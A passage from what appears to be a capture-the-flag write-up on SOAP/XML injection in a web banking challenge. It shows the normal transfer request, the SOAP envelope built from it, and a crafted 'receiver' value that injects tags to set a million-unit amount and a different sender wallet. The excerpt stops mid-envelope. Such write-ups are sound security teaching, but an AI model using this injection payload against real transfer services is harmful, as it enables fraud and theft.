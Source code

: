 The flow of the application would be something like this:
User submits a transfer request such as the following:
```
POST /home/transfer.php HTTP/1.1
Host: web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/home/transfer.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: PHPSESSID=90sftp3bs9qb0ri5cjb5bc7gq1
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

receiver=1380&amount=1
```
The server that translates ``receiver=1380&amount=1`` into the SOAP format which would be something like the following
```
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope 
   xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/">
   <SOAP-ENV:Body>
   	<internalTransfer>
   		<receiver_wallet_num>1380</receiver_wallet_num>
   		<sender_wallet_num>YOUR BANK ID</sender_wallet_num>
		<token>YOUR TRANSFER TOKEN</token>
   		<amount>1</amount>
   	</internalTransfer>
   </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```
Then this request is sent to the service binding (http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.php)

However, the server wasn't validating the inputs correctly and allowed us to send letters and “</>” allowing us to inject our own SOAP values.

So the final request turned out to be:
```
POST /home/transfer.php HTTP/1.1
Host: web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/home/transfer.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 141
Cookie: PHPSESSID=90sftp3bs9qb0ri5cjb5bc7gq1
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

receiver=2517.1</receiver_wallet_num><amount>1000000</amount><sender_wallet_num>1337</sender_wallet_num><receiver_wallet_num>2517.1&amount=10
```
Which will then be transformed into:
```
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope 
   xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/">
   <SOAP-ENV:Body>
```